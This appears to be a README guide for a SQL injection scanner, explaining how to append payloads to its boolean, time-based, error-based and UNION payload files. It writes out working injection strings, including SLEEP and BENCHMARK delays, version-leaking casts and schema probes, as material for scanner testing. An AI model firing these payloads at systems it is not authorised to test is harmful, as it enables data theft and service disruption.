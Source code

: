 # Payload Management Guide

## Overview
This guide explains how to effectively manage and add new SQL injection payloads to the scanner.

## Quick Start: Adding New Payloads

### 1. Simple Addition
Just add one payload per line to the appropriate file:

```bash
# Navigate to payloads directory
cd payloads

# Add to boolean_payloads.txt
echo "' OR 'x'='x" >> boolean_payloads.txt
echo "' AND 'x'='x" >> boolean_payloads.txt

# Add to time_payloads.txt  
echo "' AND SLEEP(7)--" >> time_payloads.txt
echo "' AND BENCHMARK(10000000,MD5('a'))--" >> time_payloads.txt

# Add to error_payloads.txt
echo "' AND 1=CAST(@@version AS int)--" >> error_payloads.txt

# Add to union_payloads.txt
echo "' UNION SELECT 1,2,3,4,5,6--" >> union_payloads.txt
```

### 2. Bulk Import
Create a file with your payloads and append:

```bash
# Create custom_payloads.txt with your payloads
cat custom_mysql_payloads.txt >> payloads/boolean_payloads.txt
```

### 3. Organize with Comments
Use `#` for comments (they'll be automatically ignored):

```
# ===========================================
# MySQL Boolean-Based Payloads
# ===========================================

# Basic true/false tests
' OR '1'='1
' OR '1'='2

# ===========================================  
# Advanced conditional tests
# ===========================================

' AND (SELECT COUNT(*) FROM users)>0--
' AND EXISTS(SELECT 1 FROM information_schema.tables)--
```
